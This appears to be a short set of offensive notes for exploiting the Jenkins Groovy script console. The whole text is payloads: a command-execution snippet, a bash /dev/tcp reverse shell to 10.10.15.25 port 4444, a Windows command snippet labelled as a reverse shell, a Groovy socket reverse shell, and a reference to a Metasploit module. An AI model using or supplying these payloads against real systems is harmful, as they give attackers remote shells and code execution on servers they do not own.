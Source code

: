 /script 


arbitrary code execution to get id
```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

reverse shell for linux
```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.15.25/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

reverse shell for windows
```
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

alt for windows
```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

---

can use metasploit: exploit/multi/http/jenkins_script_console

